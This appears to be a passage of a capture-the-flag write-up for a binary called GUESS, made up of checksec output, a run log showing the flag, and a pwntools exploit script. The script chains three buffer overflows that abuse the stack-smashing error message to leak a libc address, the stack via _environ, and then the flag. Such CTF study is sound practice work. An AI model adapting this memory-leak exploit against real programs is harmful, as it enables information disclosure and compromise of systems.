  ```java 
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] '/lib/x86_64-linux-gnu/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
libc_base_addr: 0x7f8d02122000
stack_addr: 0x7ffc5a61c908
flag: flag{stack_smash}


  ``` 
  
exp: 
 
 ```java 
  from pwn import *
# context.arch = 'amd64'
# context.log_level = 'debug'
# context.terminal = ['deepin-terminal', '-x', 'sh' ,'-c']
p = process('./GUESS')
elf = ELF("./GUESS")
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
gets_got = elf.got['gets']
# print hex(gets_got)
p.recvuntil('guessing flag\n')
payload = 'a' * 0x128 + p64(gets_got)
p.sendline(payload)
p.recvuntil('detected ***: ')
gets_addr = u64(p.recv(6).ljust(0x8,'\x00'))
libc_base_addr = gets_addr - libc.symbols['gets']
print 'libc_base_addr: ' + hex(libc_base_addr)

environ_addr = libc_base_addr + libc.symbols['_environ']
# print 'environ_addr: ' + hex(environ_addr)
payload1 = 'a' * 0x128 + p64(environ_addr)
p.recvuntil('Please type your guessing flag')
p.sendline(payload1)
p.recvuntil('stack smashing detected ***: ')
stack_addr = u64(p.recv(6).ljust(0x8,'\x00'))
print 'stack_addr: '+hex(stack_addr)

payload2 = 'a' * 0x128 + p64(stack_addr - 0x168)
p.recvuntil('Please type your guessing flag')
p.sendline(payload2)
p.recvuntil('stack smashing detected ***: ')
flag = p.recvline()
print 'flag:' + flag


  ``` 
  